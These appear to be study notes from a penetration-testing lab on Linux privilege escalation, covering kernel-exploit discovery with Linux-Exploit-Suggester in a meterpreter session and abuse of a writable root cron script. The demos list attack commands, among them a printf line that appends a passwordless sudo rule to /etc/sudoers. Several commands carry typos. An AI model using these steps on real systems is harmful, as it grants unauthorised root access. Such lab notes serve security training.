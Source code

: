 # Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilites in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
- Privesc on Linux systems will typically follow the following methodology:
  - Identifying kernel vulnerabilities
  - Downloading, compiling and transferring kernel exploits onto the target system.

## Tools & Environment
- Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

## Demo: Linux Kernel Exploits

After we obtained a meterpreter session, we enumerate info:

`sysinfo`

`getuid`

www-data is a service account which is often used on linux system which host a webserver.
`shell`

`/bin/bash -i`

`cat /etc/passwd`

`sudo apt-get update`

We use the Linux Exploit Suggester:

meterpreter: `CD /TMP`

meterpreter: `ls`

meterpreter: `upload ~/Desktop/Linux-Enum/les.sh`

meterpreter: `shell`

meterpreter: `ls`

meterpreter: `chmod +x les.sh`

meterpeter: `ls -alps`

meterpeter: `./les.sh`

Gives us Exploits and OS information. We download the exploit from the website. Navigate to the Exploit download.

# Explooiting Misconfigured Cron Jobs 
- Linux implements task schedzuling through a utility called Cron.
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
- An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches
- The crontab file is a config file that is used by the Cron utility to store and track Cron jobs that have been created.

- Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the "root" user.
- This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
- In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

## Demo: Exploiting Misconfigured Cron Jobs 

`whoami`

`groups student`

`cat /etc/passwd`

`crontab -l`

`ls al`

`cat message`

`pwd`

`cd /`

`grep -rnw /usr -e "/home/student/message"`

`ls -al /tmp`

`cat /tmp/message`

`ls -al /usr/local/share/copy.sh`

`cat /usr/local/share/copy.sh`

new tab

`printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh` 

`sudo -l`

`sudo su`

`whoami`

`cd /root`

`ls`

`cat flag`

`crontab -l`
